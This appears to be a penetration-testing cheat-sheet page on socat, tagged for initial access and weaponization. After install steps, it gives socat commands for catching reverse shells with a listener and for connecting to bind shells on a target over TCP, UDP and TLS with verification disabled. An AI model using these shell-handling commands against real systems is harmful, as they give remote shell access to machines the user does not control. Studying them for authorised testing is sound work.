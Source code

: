 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - cross-platform
  - socat
---
```

# Socat

## 01 - Setup

Install `socat` according to your package manager.

```
$ sudo apt install -y socat

$ sudo dnf install -y socat

$ sudo pacman -S --noconfirm socat
```

Checking a remote connection with verbosed debug.

```
$ socat -dddd - tcp4:<remote_IP>:<remote_PORT>
```

> [!NOTE]
> Using root privileges to bind a listener to ports below 1024.

## 02 - Reverse Shell Handler

### 2.1 - TCP Method

```
$ socat FILE:`tty`,raw,echo=0 TCP-LISTEN:<PORT>

$ socat -d -d TCP4-LISTEN:443 STDOUT
```

## 03 - Bind Shell Handler

### 3.1 - TCP Method

```
$ socat FILE:`tty`,raw,echo=0 TCP:<target_IP>:<target_PORT>
```

### 3.2 - UDP Method

```
$ socat FILE:`tty`,raw,echo=0 UDP:<target_IP>:<target_PORT>
```

### 3.3 - TLS Method

```
$ socat - OPENSSL:<target_IP>:<target_PORT>,verify=0
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/C - Initial Access/0x01 - Weaponization/0xB - Client-Side Attacks/Delivery Methods/File Attachment/Payloads/Cross Platform/One-Liners/Netcat Variants/Socat]]

### Hackers Arise

- [Hackers Arise: Socat - The Advanced Hacker's Network Tool](https://hackers-arise.com/socat-the-advanced-hackers-network-tool/)